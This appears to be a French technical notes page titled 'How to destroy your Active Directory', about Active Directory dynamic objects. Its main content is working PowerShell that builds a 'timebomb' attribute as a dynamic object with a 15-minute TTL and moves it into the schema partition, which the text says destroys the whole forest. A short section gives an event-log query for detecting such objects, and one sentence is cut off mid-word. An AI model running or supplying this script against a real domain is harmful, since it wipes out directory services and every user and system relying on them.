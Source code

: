 ```yaml
---
title: "Comment détruire votre Active Directory"
description: "Votre forêt s'auto-détruira dans 3, 2, 1..."
tags: active-directory
listed: true
---
```


Création d'un objet temporaire dans le schéma Active Directory

[PowerShell Gallery \| scripts/New-ADSchemaTestOID.ps1 0.0.3](https://www.powershellgallery.com/packages/ADSchema/0.0.3/Content/scripts%5CNew-ADSchemaTestOID.ps1)

[PowerShell Gallery \| scripts/New-ADSchemaAttribute.ps1 0.0.1](https://www.powershellgallery.com/packages/ADSchema/0.0.1/Content/scripts%5CNew-ADSchemaAttribute.ps1)

## Comportement d'un objet dynamique

### Création d'un objet statique dans un objet dynamique

Lorsque vous 

Aucun problème en revanche pour créer un objet dynamique dans un autre objet dynamique

"Windows cannot create the object testGroup because: The server is unwilling to process the request"

## Détruire votre domaine Active Directory

### Création d'un objet temporaire dans le schéma

Basé sur l'article : [Create and manage custom AD attributes with PowerShell – 4sysops](https://4sysops.com/archives/create-and-manage-custom-ad-attributes-with-powershell/#rtoc-4)

#### Génération d'un OID

```powershell
function New-Oid {
    param([string]$Prefix = '1.2.840.113556.1.8000.2554')

    $guid = [string]([System.Guid]::NewGuid())
    $oid = 0, 4, 9, 14, 19, 24, 30 | ForEach-Object {
        if ($_ -ge 24) { $l = 6 } else { $l = 4 }
        [UInt64]::Parse($guid.SubString($_, $l), 'AllowHexSpecifier')
    }
    $prefix + ($oid -join '.')
}
```

#### Ajout d'un nouvel attribut

```powershell
# Création de l'attribut en dehors de la partition Schéma
$dynamicObject = ([ADSI]("LDAP://CN=Users,DC=contoso,DC=com")).Create('attributeSchema', 'CN=timebomb')
$dynamicObject.PutEx(2, 'objectClass', @('dynamicObject', 'attributeSchema'))
$dynamicObject.Put('entryTTL', 900)
$dynamicObject.Put('lDAPDisplayName', 'timebomb')
$dynamicObject.Put('adminDescription', 'This attribute will blow up the entire Active Directory forest in 15 minutes')
$dynamicObject.Put('attributeId', (New-Oid))
$dynamicObject.Put('oMSyntax', 1)
$dynamicObject.Put('attributeSyntax', '2.5.5.8')
$dynamicObject.Put('searchflags', 0)
$dynamicObject.Put('systemFlags', 536870912)
$dynamicObject.SetInfo()
```

```powershell
# Déplacement de l'objet dans la partition schéma
Move-ADObject -Identity 'CN=timebomb,CN=Users,DC=contoso,DC=com' -TargetPath (Get-ADRootDSE).schemaNamingContext
```

## Détection de la création d'objet dynamique

```powershell
$filterXPath = "Event[System[EventID=5136]] and *[EventData[Data[@Name='AttributeValue']='1.3.6.1.4.1.1466.101.119.2']]"
Get-WinEvent -ProviderName Microsoft-Windows-Security-Auditing -FilterXPath $filterXPath
```

[AD Object Detection: Detecting the undetectable (dynamicObject) \| Microsoft Learn](https://learn.microsoft.com/en-us/archive/blogs/pfesweplat/ad-object-detection-detecting-the-undetectable-dynamicobject)